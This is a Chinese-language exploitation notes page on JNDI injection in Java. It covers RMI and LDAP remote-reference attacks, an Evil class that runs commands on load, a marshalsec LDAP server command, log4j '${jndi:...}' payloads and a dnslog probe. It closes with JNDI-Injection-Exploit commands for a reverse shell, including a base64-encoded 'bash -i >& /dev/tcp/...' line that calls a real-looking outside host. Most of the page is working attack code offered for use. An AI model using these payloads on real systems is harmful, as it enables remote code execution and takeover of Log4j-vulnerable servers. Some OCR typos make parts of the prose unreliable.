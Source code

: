 ![](.topwrite/assets/image_1727319060611.png)
## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。

**简单案例**
恶意类，编译.class放在8080http服务
```
import java.io.IOException;​
public class Evil {​
        static {​
                try {​
                        Runtime.getRuntime().exec("calc");​
                } catch (IOException e) {​
                        throw new RuntimeException(e);​
                }​
        }​
}
```
RMI服务端，使用Reference引用http上的class文件
```
public class Refer {​
        public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {​
                String url = "http://127.0.0.1:8080/";​
                Registry registry = LocateRegistry.createRegistry(1099);​
                System.out.println("Registry start");​
                Reference reference = new Reference("test", "Evil", url);​
                ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);​
                registry.bind("aa",referenceWrapper);​
        }​
}
```
被攻击的客户端使用JNDI
```
public class Client {​
        public static void main(String[] args) throws NamingException {​
                Context context=new InitialContext();​
                String url="rmi://127.0.0.1:1099/aa";​
                context.lookup(url);​
        }​
}
```


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
其中 http://127.0.0.1:8000/#Evil 的根目录下有一个Evil.class的恶意类。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk 8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。

^
## **存在JNDI注入的入口类方法**
即存在new InitialContext().lookup()
常见有类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法中。




^
## **log4j的JNDI注入**
```
使用${jndi:}后，底层使用了new InitialContext().lookup()
logger.info("${jndi:ldap://127.0.0.1:1099/Evil}");
logger.error("${jndi:ldap://127.0.0.1:1099/Evil}");
```

```
仅测试dnslog即可，一般有结果就一定存在注入
logger.info("${jndi:ldap://xx.dnslog.cn}");
```

^
## **一键搭建LDAP或RMI利用服务**

JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。

```
java8 -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc"

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}


注意反弹shell命令需要base64编码
bash -i >& /dev/tcp/（你服务器的公网IP地址）/8888（监听的端口号，我这里使用的是8888端口） 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==（这是上一行代码的base64编码）

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" -A "（你服务器的公网IP地址）"
```

